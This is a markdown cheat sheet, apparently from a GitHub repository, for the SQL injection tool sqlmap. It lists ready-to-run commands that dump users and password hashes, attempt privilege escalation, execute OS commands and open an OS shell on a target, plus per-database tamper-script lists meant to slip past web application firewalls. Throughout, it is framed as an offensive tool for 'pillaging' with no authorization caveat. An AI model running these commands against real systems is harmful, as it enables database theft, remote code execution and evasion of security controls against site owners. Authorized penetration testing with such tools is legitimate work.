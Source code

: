 # SQLMap

Reference: https://github.com/wuvel/SQLMapCheatsheet/blob/master/README.md

## Command

- Target the http://target.server.com URL using the “-u” flag:

  ```
  sqlmap -u 'http://target.server.com'
  ```

- Specify POST requests by specifying the “–data” flag:

  ```
  sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'
  ```

- Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:

  ```
  sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'
  ```

- Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
  ```
  sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
  ```
- Perform in-depth and risky attacks using the “–level” and “–risk” flags:
  ```
  sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
  ```
- Specify which POST or GET parameter to target using the “-p” flag:
  ```
  sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
  ```
- Choose a random User-Agent request header using the “–random-agent” flag:
  ```
  sqlmap -u 'http://target.server.com' -r req.txt --random-agent
  ```
- Target a certain database service using the “–dbms” flag:
  ```
  sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
  ```
- Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
  ```
  sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
  ```
- Attempt privilege escalation on the target database
  ```
  sqlmap -r ./req.txt --level=1 --risk=3 --privesc
  ```
- Run the “whoami” command on the target server.
  ```
  sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
  ```
- Dump everything in the database, but wait one second in-between requests.
  ```
  sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
  ```
- Here are some useful options for your pillaging pleasure:
  ```
  -r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
  –force-ssl Force SQLmap to use SSL or TLS for its requests.
  –level=1 only test against the specified parameter, ignore all others.
  –risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
  –delay Set a delay in-between requests, great for throttled connections.
  –proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
  –privesc Attempt to elevate the privileges of the database service account.
  –all Enumerate everything inside the target database.
  –hostname Print the target database’s hostname.
  –passwords Find and exfiltrate all users and their password hashes or digests.
  –dbs Enumerate all databases accessible via the target webserver.
  –comments Enumerate all found comments inside the database.
  –sql-shell Return a SQL prompt for interaction.
  –os-cmd Attempt to execute a system command.
  –os-shell Attempt to return a command prompt or terminal for interaction.
  –reg-read Read the specified Windows registry key value.
  –file-write Specify a local file to be written to the target server.
  –file-dest Specify the remote destination to write a file to.
  –technique Specify a letter or letters of BEUSTQ to control the exploit attempts:
      B: Boolean-based blind
      E: Error-based
      U: Union query-based
      S: Stacked queries
      T: Time-based blind
      Q: Inline queries
  ```

## Tamper

Resource: https://docs.google.com/spreadsheets/d/10nMVkPNi5VS2s4Ju40IrvvaTO-grO_BTT5gJBtEhrb0/edit?source=post_page-----91be42dfc893----------------------#gid=0

- **All scripts**

  ```
   --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **General scripts**

  ```
  --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **Microsoft access**

  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **Microsoft SQL Server**

  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **MySQL**

  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
  ```

- **Oracle**

  ```
  --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **PostgreSQL**

  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
  ```

- **SAP MaxDB**

  ```
  --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **SQLite**
  ```
  --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```
